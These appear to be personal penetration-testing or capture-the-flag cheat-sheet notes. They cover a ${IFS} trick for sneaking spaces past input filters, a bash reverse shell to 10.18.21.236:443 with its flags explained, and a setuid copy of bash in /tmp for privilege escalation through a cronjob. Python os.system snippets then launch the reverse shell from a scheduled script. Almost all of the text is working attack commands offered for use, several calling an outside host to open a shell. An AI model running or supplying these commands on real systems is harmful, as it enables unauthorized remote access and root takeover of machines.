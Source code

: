 `${IFS%??}` = space as in `which${IFS%??}bash`

^works on bash, not on zsh

Reverse shell:
`/bin/bash -i >& /dev/tcp/10.18.21.236/443 0>&1`

-i   interactive
`>&`: redirects both standard output (stdout) and standard error (stderr)
`0>&1`: redirects the standard input (stdin) to the same destination as standard output. This ensures that any input intended for the shell is also sent over the network connection to the attacker's machine.

-l   executes `~/.bash_profile`, `~/.bash_login`, or `~/.profile` (in that order) and inherits environment variables set in those files

rev shell file:
```sh
#!/bin/bash
bash -i >& /dev/tcp/10.18.21.236/443 0>&1
```

To run with existing cronjob or similar:
```sh
#!/bin/bash
cp /bin/bash /tmp/mybash
chmod +xs /tmp/mybash
```
chmod +x /home/user/whatever.sh
/tmp/mybash -p

---
alternative

nano revsh.sh
```sh
#!/bin/bash
bash -i >& /dev/tcp/10.18.21.236/443 0>&1
```
in python code run by system (like crontab)
```python
import os

os.system("touch /tmp/testfile")
os.system("bash /tmp/revsh.sh")
```

---
in python
```python
import os

os.system("touch /tmp/testfile9")
os.system("echo 'bash -i >& /dev/tcp/10.18.21.236/443 0>&1'|bash")
```
observe: os.system("bash -i >& /dev/tcp/10.18.21.236/443 0>&1") may not work but the above does, funny
